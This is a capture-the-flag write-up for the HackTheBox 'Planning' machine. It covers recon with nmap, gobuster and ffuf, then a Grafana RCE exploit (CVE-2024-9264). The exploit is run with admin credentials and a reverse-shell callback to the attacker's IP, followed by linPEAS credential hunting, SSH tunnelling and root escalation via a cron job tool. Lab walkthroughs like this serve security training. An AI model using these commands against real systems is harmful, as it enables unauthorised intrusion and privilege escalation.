 #Planning Machine Writeup

The nmap scan gives us two open ports; SSH (Port 22) and nginx web server (Port 80).
nmap -sCV -T4 10.10.11.68
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image002.png)

Upon enumeration of the directories on the web server, nothing of significance comes up.
gobuster dir -u http://planning.htb/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 --timeout 20s -x html,php
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image004.png)

So, ffuf is used to look for any subdomains the web page might have, and it comes up with Grafana.planning.htb.
ffuf -w ../../seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://planning.htb -H "Host:FUZZ.planning.htb" -fc 301 -t 100
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image005.png)
 
After discovering the subdomain grafana, it is appended to the hosts file, so we’re able to access it. 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image007.png)

Going into the webpage, we see it runs V11.0.0 which is vulnerable to RCE (CVE-2024-9264).
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image009.png)
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image011.png)
 
We then use an exploit found on github by z3k0sec, which allows us to RCE into the system using reverse shell.
Git clone https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image0013.png)

The script is then executed and a listener is set up.
Note: To run the script, you will have to install the requests module through pip (pip install requests), in a python virtual environment.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image015.png)
python3 poc.py --url http://grafana.planning.htb/ --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.131 --reverse-port 1234

  
Upon gaining access to the system, we are root but this user doesn’t contain either of the flags, so linPEAS is ran to look for any sensitive information.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image017.png)

Upon running linPEAS, the password for the user ‘enzo’ is obtained.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image019.png)

Able to SSH into enzo, the user flag is obtained.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image021.png)

linPEAS is ran again, this time in enzo’s user to look for any sensitive files. After which we see some database files.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image023.png)

Exploring the crontab.db, we find a password for the root user. Looking for active connections, we see a webserver being hosted at port 8000.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image0025.png)

Using SSH tunnelling we host it in our own machine, at port 8001. It requires a username and password, available from the crontab.db database.
ssh -L 8001:localhost:8000 enzo@10.10.11.68
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image027.png)

The website functions as a cronjobs simulator, executing tasks at a certain time as root. From here we can privilege escalate the enzo’s user as sudo, gaining root privileges.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image029.png)

After obtaining privileges we are able to obtain the root flag.
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image031.png)
